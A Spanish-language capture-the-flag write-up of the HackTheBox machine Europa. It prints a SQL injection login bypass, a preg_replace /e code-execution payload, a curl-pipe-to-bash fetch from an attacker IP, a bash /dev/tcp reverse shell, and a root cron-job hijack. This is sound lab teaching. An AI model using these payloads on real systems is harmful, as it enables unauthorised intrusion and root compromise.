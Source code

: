 ```yaml
---
layout: single
title: Europa HTB - WriteUp
excerpt: WriteUp de la máquina Europa de HTB.
date: 2023-02-19
classes: wide
header:
  teaser: /assets/images/Europa/Europa.png
  teaser_home_page: true
  icon: /assets/images/Europa/Europa.png
categories:
  - infosec
tags:
  - ctf
  - Linux                                                                                                                                                                                 
  - Writeup
  - Virtual_Hosting                                                                                                                                                                                  
  - SQLI                                                                                                                                                                                     
  - Pre_Replace
  - Crontab
---
```


Hoy estamos la máquina Europa de HackTheBox.

### Enumeración.

Lo primero que haremos será escanear los puertos de la máquina, para ello usaremos la herramienta nmap.

```bash
❯ nmap -sC -sV -Pn -n -oN Extraction -p22,80,443 10.10.10.22
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2023-02-19 09:17 CET
Nmap scan report for 10.10.10.22
Host is up (0.068s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos sacar varias cosas de este escaneo:

- En el servidor web que usa SSL podemos ver nombres de dominios. Es posible que se este utilizando Virtual Hosting, voy a añadir los siguientes nombres al /etc/hosts.
	- admin-portal.europacorp.htb
	- europacorp.htb
	
- Un correo de administrador -> admin@europacorp.htb

Ademas he enumerado con gobuster en busqueda de mas subdominios, pero no he encontrado ningunos mas...

### Explotación

Si entramos a admin-portal.europacorp.htb podemos ver una página de incio de sesión. No disponemos de contraseñas... Pasaré la petición POST por Burpsuite para aplicar inyeccciones basicas.

Podemos comprobar que el formulario es vulnerable a SQLI.

![](/assets/images/Europa/burp1.png)

La inyección es error based, podemos comprobar en la respuesta un hash. La aplicación nos esta hasheando la password que introduccimos por el formulario. Podemos saltarnos el panel de login de diferentes formas... En mi caso he usado el siguiente payload:

```r
email=admin@europacorp.htb';--+-&password=
```

Este payload nos devuelve un codigo de estado 302 y la cabecera:

```r
Location: https://admin-portal.europacorp.htb/dashboard.php
```
 
Por lo tanto nos va a redirecccionar a esa página. En ella podemos ver un dashboard que no permite acceder a la gran mayoria de enlaces. Podemos a acceder a uno que lleva a tools.php

Esta tool parece que nos deja generar un archivo de configuración OpenVPN, tenemos un input que nos solicita una direccción IP del host remoto, voy a pasar la petición por Burpsuite.

![](/assets/images/Europa/burp2.png)

En la petición podemos ver un campo pattern, lo que me hace pensar que se está utilizando la función preg_replace() de PHP. Con una simple busqueda en google podemos ver como explotarlo.

```php
payload: index.php?pat=**/a/e**&rep=**phpinfo();**&sub=**abc**
```

preg_replace tiene una serie de modificadores a la hora de buscar expresiones, entre ellas un modificador /e el cual es capaz de interpretar código PHP. Si se ha pasado esto por alto a la hora de crear la aplicación podemos intentar explotarlo.

En nuestro caso el payload quedaria así:

```php
pattern=/ip_address/e&ipaddress=phpinfo();SNIP...
```

En mi caso no quiero mostrar información sobre PHP quiere ejecutar comandos a nivel de sistema

```php
pattern=/ip_address/e&ipaddress=system('id');SNIP...
```

Si mandamos ese payload y miramos la respuesta podemos observar que donde se haría la sustitución de la dirección IP ahora vemos el usuario que esta  ejecutanto el servidor web.

![](/assets/images/Europa/burp3.png)

Ahora intentaré establecer una Revshell. Para ello usare el siguiente payload:

```php
pattern=/ip_address/e&ipaddress=system('curl+http://10.10.16.4/shell.sh|bash')
```

Archivo shell.sh

```bash
bash -i >& /dev/tcp/10.10.16.4/443 0>&1
```

### Enumeración del sistema

Una vez enviado el payload, si revisamos nuestro listener, podemos ver que tenemos una shell. Por comodidad la haré interactiva.

```bash
Pasos
	1- script -c bash /dev/null
	2- ctrl + z
	3- stty raw -echo ;fg
	4- export TERM=xterm
	5- export SHELL=bash
	6- stty rows x columns x
```

Si enumeramos el sistema podemos ver que hay una tarea cron en /etc/crotab

```bash
www-data@europa:/home/john$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *       root    /var/www/cronjobs/clearlogs
```

Podemos ver que la esta ejecutando root. Si miramos lo que contiene el script podemos observar que es un script en php que ejecuta un archivo .sh.

```php
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```

### Explotacíon sistema

Si intentamos leerlo podemos ver que no existe, por lo tanto, vamos a comprobar que tengamos permisos de escritura en /var/www/cmd y crearemos un script en en bash para ganar una shell como root.

Usaré el mismo payload que antes (recuerda darle permsiso de ejecución):

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.4/443 0>&1
```

Si esperamos un rato podemos ver que nuestro listener tiene una shell como root.

```bash
❯ nc -lvvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from admin-portal.europacorp.htb [10.10.10.22] 44454
bash: cannot set terminal process group (2331): Inappropriate ioctl for device
bash: no job control in this shell
root@europa:~#
```


¡Espero que te haya servido!


